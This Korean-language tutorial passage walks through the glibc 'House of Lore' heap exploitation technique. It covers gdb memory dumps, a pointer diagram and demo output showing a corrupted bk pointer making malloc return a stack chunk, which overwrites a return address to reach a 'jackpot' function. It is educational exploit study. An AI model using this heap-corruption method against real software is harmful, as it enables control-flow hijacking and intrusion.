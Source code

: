* victim을 다시 한 번 free하여 bk 영역에 stack_buffer_1으로 변조한다.

```
gdb-peda$ x/24wx 0x804c000
0x804c000:	0x00000000	0x00000069	0xf7fb6810	0xffffd58c <- stack_buffer_1
```

```               
-------> -------- victim chunk(0x804c000) --------- 
|        |                   |                    |
|        |         fwd       | bk(stack_buffer_1) |----
|        ------------------------------------------   |
|                                                     |
|   ---------------------------------------------------
|   |
|   ----> -------- stack_buffer_1(0xffffd58c) -------
|   |     |        0x0         |         0x0        |
----|-----|  fwd(victim_chunk) | bk(stack_buffer_2) |----
    |     -------------------------------------------   |
    |                                                   |
    | ---------------------------------------------------                     
    | |
    | --> -------- stack_buffer_2(0xffffd580) ------- 
    |     |                     |                   | 
    ------| fwd(stack_buffer_1) |                   |
          -------------------------------------------
```

* victim과 똑같은 size로 malloc한다.

```
Now allocating a chunk with size equal to the first one freed
This should return the overwritten victim chunk and set the bin->bk to the injected victim->bk pointer
```

* 0x804c000 영역이 할당되었다.

```
gdb-peda$ x/24wx 0x804c000
0x804c000:	0x00000000	0x00000069	0xf7fb6810	0xffffd58c
```

* 다시 한 번 똑같은 size로 malloc할 경우 Stack의 공간이 할당된다. (0xffffd594)
* jackot의 주소를 변수에 저장 후 p4 + 40 위치에 memcpy할 경우 Return Address가 변조되어 jackpot이 실행된다.

```
This last malloc should trick the glibc malloc to return a chunk at the position injected in bin->bk
p4 = malloc(100)
The fwd pointer of stack_buffer_2 has changed after the last malloc to 0xf7fb6810
p4 is 0xffffd594 and should be on the stack!
Nice jump d00d
```

**References**  
<https://www.lazenca.net/display/TEC/The+House+of+Lore>  
<https://github.com/shellphish/how2heap/blob/master/glibc_2.25/house_of_lore.c#L71>  
<https://umbum.dev/434>
